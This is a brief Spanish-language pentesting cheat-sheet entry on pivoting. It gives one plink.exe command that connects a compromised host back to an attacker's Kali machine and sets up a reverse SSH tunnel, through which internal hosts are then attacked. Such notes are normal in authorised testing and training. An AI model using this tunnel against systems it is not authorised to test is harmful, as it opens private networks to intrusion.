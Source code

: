 ### Dinamic remote port forwarding
Nos conectamos a nuestra maquina atacante mediante ssh y redireccionamos el tráfico a un puerto de una pc inaccesible a un puerto de nuestra máquinola atacante

    plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:<puerto_a_abrir_en_attacker>:<ip_destino>:<puerto> <ip_attacker>



Luego realizamos los ataques desde la máquina atacante al 127.0.0.1:puerto asignado

